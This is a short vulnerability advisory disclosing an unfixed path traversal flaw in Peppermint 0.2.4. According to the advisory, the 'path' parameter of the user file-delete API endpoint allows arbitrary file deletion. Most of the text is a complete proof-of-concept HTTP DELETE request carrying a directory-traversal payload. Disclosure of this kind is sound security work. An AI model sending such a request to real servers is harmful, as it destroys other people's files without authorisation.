 # Peppermint-Lab  - Path Traversal


**CVE-ID:** -


**Vendor:** [Peppermint-Lab](https://peppermint.sh)

**Affected Product:** Peppermint

**Affected Versions:** 0.2.4

**Vulnerability:** Path Traversal

**Status:** Unfixed

**Severity:** Critical



## Details

The application does not properly filter the `path` JSON parameter in the `/api/v1/users/file/delete` endpoint.

This results in arbitrary file deletion.


```
DELETE /api/v1/users/file/delete HTTP/1.1
Host: localhost:5000
Content-Length: 57
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
sec-ch-ua-platform: "Linux"
Content-Type: application/json
Accept: */*
Origin: http://localhost:5000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"id":"4","path":"./../../../../../../../etc/hacked.txt"}
```

